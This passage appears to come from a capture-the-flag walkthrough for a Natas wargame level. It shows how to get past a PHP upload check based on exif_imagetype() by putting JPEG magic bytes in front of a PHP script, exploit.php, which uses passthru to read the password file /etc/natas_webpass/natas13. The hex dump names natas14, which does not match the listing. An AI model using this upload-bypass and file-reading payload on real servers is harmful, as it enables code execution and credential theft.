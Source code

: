 Let's see what the `exif_imagetype()` function does..

```
http://php.net/manual/en/function.exif-imagetype.php

int exif_imagetype ( string $filename )
reads the first bytes of an image and checks its signature.
```

.. okay, so what if we can embed the JPG signature to the head of the file?
Let's first create a little program that tests the `exploit.php` file we used
in the previous level.

```
$ cat exploit.php
<?

passthru("echo cat /etc/natas_webpass/natas13");
passthru("cat /etc/natas_webpass/natas13");

?>
```

```
$ cat exif_imagetype.php
<?

if (exif_imagetype('./exploit.php')) {
  print "exploit.php appears to be an image\n";
}
else {
  print "exploit.php does NOT pass the image test\n";
}
$ php exif_imagetype.php
exploit.php does NOT pass the image test
```

#### EXPLOIT

We look up what the special signature of a JPG file is and find..

```
JPEG files (compressed images) start with an image marker which always
contains the marker code hex values FF D8 FF. 
```

So let's try and edit our `exploit.php` file to have this header. It may
make the file weird, but it should still work if we have the `.php` extension
as the server will still try and interpret it as PHP code.

```
$ xxd -p exploit.php
3c3f0a0a706173737468727528226563686f20636174202f6574632f6e61
7461735f776562706173732f6e61746173313422293b0a70617373746872
752822636174202f6574632f6e617461735f776562706173732f6e617461
73313422293b0a0a3f3e0a
```
